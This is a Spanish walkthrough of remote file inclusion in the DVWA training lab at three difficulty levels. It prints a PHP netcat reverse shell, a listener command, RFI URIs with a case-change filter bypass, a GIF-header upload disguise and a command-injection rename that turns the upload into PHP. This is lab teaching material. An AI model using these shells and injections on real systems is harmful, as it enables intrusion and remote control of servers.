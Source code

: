 # RFI

## Bajo

Para comenzar, podemos intentar lanzar un shell remoto escrito en PHP `php-reverse-shell.php` que se encuentra en nuestro servidor local y que previamente hemos creado con el siguiente contenido:

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

A continuación, ponemos en escucha el puerto 4000 en nuestro servidor local para recibir la conexión del servidor remoto:

```bash
nc -lvnp 4000
```

Una vez puesto en escucha, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Una vez incluido el archivo, el servidor remoto intentará conectarse al servidor local en el puerto 4000, y si todo ha ido bien, obtendremos una shell remota.
Una vez hayamos obtenida la shell remota, podemos intentar mejorar la TTY para poder interactuar con ella de una manera más cómoda, para ello ejecutamos el siguiente comando:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Una vez mejorada la TTY, podemos intentar leer el archivo `fi.php` utilizando cat:

```bash
cat DVWA/hackable/flags/fi.php
```

![rfi](/FI/assets/rfi.png)

## Medio

Al igual que en el nivel bajo, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Si probamos a ejecutarlo, comprobaremos que no funciona debido a que el servidor habra reemplazado el `http://` por una cadena vacía y por tanto no podrá conectarse al servidor local. Para poder solucionar esto, podemos probar cambiando `http` -> `Http` | `httphttp` | `HTTP` | etc.

```
http://localhost/DVWA/vulnerabilities/fi/?page=Http://localhost/php-reverse-shell.php
```

![rfi-2](/FI/assets/rfi-2.png)

Como se puede ver, se ha vuelto a visualizar el archivo `fi.php` de donde extraemos todas las citas.

## Alto

Al contrario que en los niveles anteriores, ahora para subir la reverse shell al servidor remoto debemos hacerlo aprovechando otra vulnerabilidad, en este caso la vulnerabilidad de **subida de archivos** o **file upload**. Para ello, podemos utilizar el script utilizado en la sección de file upload:

```php
GIF98
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

Como se menciona en la otra sección se puede ver que se consigue subir el archivo `shell.png` a través de la siguiente URI:
![uploaded-high](/FU/assets/upload-high.png)

Una vez subido, procedemos a cambiar el nombre del archivo a `shell.php` y a moverlo a la carpeta `fi` mediante la técnica de Command Injection:

```bash
|mv ../../hackable/uploads/shell.png ../fi/file5.php
```

Una vez movido, podemos intentar incluir el archivo `file5.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=file5.php
```

![challenge-4](/FI/assets/challenge-4.png)